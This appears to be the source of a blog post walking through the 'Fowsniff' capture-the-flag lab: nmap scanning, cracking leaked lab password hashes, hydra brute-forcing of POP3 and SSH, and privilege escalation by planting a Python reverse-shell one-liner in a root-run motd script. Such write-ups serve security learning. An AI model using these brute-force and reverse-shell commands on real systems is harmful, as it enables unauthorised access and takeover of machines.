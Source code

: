 ```yaml
---
layout: post
permalink: /posts/thm/fowsniff-ctf
title: "Fowsniff CTF"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/fowsniff-ctf/nmap.png)

There are 4 open ports. Let's go and visit the web server.

![web-server](/assets/images/thm/fowsniff-ctf/web-server.png)

It looks that the company has been hacked. Searching for the Twitter account `@fowsniffcorp` leads us to a profile where we can find a link to Pastebin with their leaked password.

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

We can use <https://crackstation.net/> to crack all the passwords. Once you have already cracked the passwords (I wasn't able to crack one of them) create two files one for `users` populated with the user names and one for `passwords` populated with the passwords. Now we can try to brute force the POP3 service using hydra.

```
hydra -L users -P passwords pop3://<IP>
```

![hydra](/assets/images/thm/fowsniff-ctf/hydra.png)

We have successfully bruted the POP3 service. Now login.

```
nc <IP> 110
```

or

```
telnet <IP> 110
```

![pop3](/assets/images/thm/fowsniff-ctf/pop3.png)

Reading through the emails you will find a SSH password. Create a new file with the recipients of the email and we are going to use hydra again to brute force SSH service.

```
hydra -L sshusers -p S1ck3nBluff+secureshell ssh://<IP>
```

![hydra2](/assets/images/thm/fowsniff-ctf/hydra2.png)

Now we can connect to SSH

```
ssh <USER_NAME>@<IP>
```

![ssh](/assets/images/thm/fowsniff-ctf/ssh.png)

Now we need to find out what group our user belongs to and search for interesting files that can be run by that group.

```
id
find / -type f -group users 2>/dev/null
```

![find](/assets/images/thm/fowsniff-ctf/find.png)

Let's look the content of the script

![script](/assets/images/thm/fowsniff-ctf/script.png)

It looks the same as the banner we saw when we SSH which means this file is run as root when someone SSH. We can check that as we read `/etc/update-motd.d/00-header`

![cat](/assets/images/thm/fowsniff-ctf/cat.png)

Well, let's add the python reverse shell script into `/opt/cube/cube.sh`

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Once cube.sh is changed start listener on our machine and SSH again. You should receive root shell.
